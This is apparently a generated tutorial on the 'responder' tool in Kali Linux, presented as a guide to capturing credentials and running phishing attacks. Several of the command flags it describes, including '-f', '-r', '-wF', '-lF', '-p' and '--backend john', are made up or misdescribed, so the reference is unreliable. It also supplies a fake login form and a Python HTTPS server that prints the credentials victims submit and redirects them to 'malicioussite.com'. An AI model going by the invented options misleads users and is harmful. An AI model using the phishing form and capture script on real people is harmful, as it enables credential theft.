  The `responder` command in Kali Linux is a tool used for network service discovery and phishing attack simulation. It listens on various protocols (like HTTP, HTTPS, SMB) to capture credentials and other information from unsuspecting users. Below are some key features of the `responder` command along with examples:

### 1. Basic Usage
```bash
sudo responder -I eth0
```
This starts the `responder` on a specific network interface (`eth0` in this case). It will listen for any traffic and attempt to capture credentials or other information from users.

### 2. Capturing Passwords (e.g., HTTP Basic Auth)
When an attacker captures credentials, they can be displayed using the following command:
```bash
sudo responder -I eth0 -f
```
The `-f` flag forces `responder` to capture passwords and other information from HTTP basic authentication prompts.

### 3. Capturing Passwords (e.g., SMB)
For capturing credentials over SMB, you can use:
```bash
sudo responder -I eth0 -r
```
The `-r` flag is used to enable the responder mode specifically for SMB traffic.

### 4. Customizing Response Messages
You can customize the response message that gets sent to users by specifying a custom payload file with the `-w` option:
```bash
sudo responder -I eth0 -wF your_custom_payload_file.txt
```
Replace `your_custom_payload_file.txt` with the path to your custom payload file.

### 5. Logging Captured Data
To log captured data to a file, you can use:
```bash
sudo responder -I eth0 -lF response.log
```
This will save all captured information to `response.log`.

### 6. Using Payloads for Phishing
You can also use payloads to perform phishing attacks. For example, if you have a payload file (`payload.txt`), you can specify it with:
```bash
sudo responder -I eth0 -p payload.txt
```
This will send the contents of `payload.txt` as a response to any captured credentials.

### 7. Interfacing with Other Tools
You can integrate `responder` with other tools like `hydra` for password cracking or `john` for hash cracking by using the `--backend` option:
```bash
sudo responder -I eth0 --backend john
```
This command will use `john` to crack passwords captured by `responder`.

### 8. Stopping Responder
To stop `responder`, you can use Ctrl+C in the terminal where it is running, or if you need to forcefully kill it, you can use:
```bash
sudo pkill -f responder
```
This command will terminate any process named `responder` that matches the given pattern.

### Examples of Payloads
Here are some example payloads for phishing attacks:
- **HTML Form**: This can be used to capture credentials in a more sophisticated manner.
  ```html
  <!DOCTYPE html>
  <html lang="en">
  <head>
      <meta charset="UTF-8">
      <title>Login</title>
  </head>
  <body>
      <form action="" method="post">
          Username: <input type="text" name="username"><br>
          Password: <input type="password" name="password"><br>
          <input type="submit" value="Submit">
      </form>
  </body>
  </html>
  ```
- **Phishing Script**: This can be used to redirect users to a malicious site.
  ```python
  import http.server as server
  import ssl

  class RequestHandler(server.BaseHTTPRequestHandler):
      def do_POST(self):
          content_length = int(self.headers['Content-Length'])
          post_data = self.rfile.read(content_length)
          print(post_data.decode('utf-8'))
          self.send_response(301)
          self.send_header('Location', 'http://malicioussite.com')
          self.end_headers()

  httpd = server.HTTPServer(('', 8080), RequestHandler)
  httpd.socket = ssl.wrap_socket(httpd.socket, keyfile="key.pem", certfile='cert.pem', server_side=True)
  ```

These examples and commands should help you get started with using the `responder` command in Kali Linux for network security testing and phishing attacks.


